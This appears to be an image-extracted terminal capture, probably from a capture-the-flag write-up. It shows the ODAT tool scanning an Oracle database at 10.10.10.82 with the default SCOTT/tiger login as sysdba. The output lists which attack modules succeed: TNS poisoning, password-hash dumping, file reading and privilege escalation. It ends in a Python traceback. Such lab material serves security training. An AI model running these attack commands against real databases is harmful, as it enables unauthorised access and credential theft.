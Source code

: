     root@kali# odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba

    [1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
    [+] The target is vulnerable to a remote TNS poisoning

    [2] (10.10.10.82:1521): Testing all modules on the XE SID with the SCOTT/tiger account
    [2.1] UTL_HTTP library ?
    [+] OK
    [2.2] HTTPURITYPE library ?
    [+] OK
    [2.3] UTL_FILE library ?
    [+] OK
    [2.4] JAVA library ?
    [-] KO
    [2.5] DBMSADVISOR library ?
    [+] OK
    [2.6] DBMSSCHEDULER library ?
    [-] KO
    [2.7] CTXSYS library ?
    [+] OK
    [2.8] Hashed Oracle passwords ?
    [+] OK
    [2.9] Hashed Oracle passwords from history?
    [+] OK
    [2.10] DBMS_XSLPROCESSOR library ?
    [+] OK
    [2.11] External table to read files ?
    [-] KO
    [2.12] External table to execute system commands ?
    [-] KO
    [2.13] Oradbg ?
    [-] KO
    [2.14] DBMS_LOB to read files ?
    [+] OK
    [2.15] SMB authentication capture ?
    [+] Perhaps (try with --capture to be sure)
    [2.16] Gain elevated access (privilege escalation)?
    [2.16.1] DBA role using CREATE/EXECUTE ANY PROCEDURE privileges?
    [+] OK
    [2.16.2] Modification of users' passwords using CREATE ANY PROCEDURE privilege only?
    [-] KO
    [2.16.3] DBA role using CREATE ANY TRIGGER privilege?
    [-] KO
    [2.16.4] DBA role using ANALYZE ANY (and CREATE PROCEDURE) privileges?
    [-] KO
    [2.16.5] DBA role using CREATE ANY INDEX (and CREATE PROCEDURE) privileges?
    [-] KO
    [2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
    [+] Impossible to know
    [2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
    Exception in thread Thread-1:
    Traceback (most recent call last):
      File "threading.py", line 808, in __bootstrap_inner
      File "threading.py", line 761, in run
      File "CVE_2012_3137.py", line 105, in __sniff_sessionkey_and_salt__
      File "site-packages/scapy/sendrecv.py", line 570, in sniff
      File "site-packages/scapy/arch/linux.py", line 470, in __init__
      File "site-packages/scapy/arch/linux.py", line 139, in attach_filter
      File "socket.py", line 224, in meth
    error: [Errno 22] Invalid argument
